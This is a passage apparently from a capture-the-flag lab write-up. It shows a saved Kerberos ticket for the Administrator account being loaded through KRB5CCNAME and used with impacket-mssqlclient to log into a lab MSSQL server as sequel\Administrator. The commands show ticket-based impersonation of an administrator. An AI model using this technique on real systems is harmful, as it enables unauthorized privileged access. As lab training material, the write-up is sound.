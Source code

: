 ```bash
[*] Saving ticket in Administrator.ccache
```
{% endcode %}

We can now login the MSSQL service using the account `administrator` now.

```bash
$ export KRB5CCNAME=Administrator.ccache
$ impacket-mssqlclient -k dc.sequel.htb
...
SQL> select suser_name()
                       
--------------------   
sequel\Administrator 
```
